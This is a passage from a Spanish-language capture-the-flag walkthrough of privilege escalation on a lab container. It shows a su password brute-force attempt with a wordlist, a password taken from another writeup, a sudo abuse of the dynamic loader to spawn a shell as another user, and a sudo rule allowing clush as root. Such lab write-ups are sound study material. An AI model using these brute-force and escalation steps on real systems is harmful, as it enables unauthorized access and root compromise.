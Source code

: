 ![](/assets/img/Anexos/Pasted%20image%2020250402144503.png)


`chmod +x` a suBF y  ejecutamos:

```shell
./suBF.sh -u nova -w ./rockyou.txt
  [+] Bruteforcing nova...
  Wordlist exhausted
```

> Aquí me tardaba mucho por lo que tuve que acudir al writeup ya que me estaba frustrando, la contraseña es **BlueSky_42!NeonPineapple** 


Ahora como **nova** podemos ejecutar _/lib64/ld-linux-x86-64.so.2_ como **maci**
```shell
sudo -l
Matching Defaults entries for nova on 8a2a93c39823:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User nova may run the following commands on 8a2a93c39823:
    (maci : maci) NOPASSWD: /lib64/ld-linux-x86-64.so.2
```

Ejecuto lo siguiente para la escalada:

```shell
sudo -u maci /lib64/ld-linux-x86-64.so.2 /bin/bash                     
id
uid=1000(maci) gid=1000(maci) groups=1000(maci),100(users)
```

Ahora como **maci** podemos ejecutar **clush** como root:

```shell
sudo -l
Matching Defaults entries for maci on 8a2a93c39823:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User maci may run the following commands on 8a2a93c39823:
    (ALL : ALL) NOPASSWD: /usr/bin/clush

```
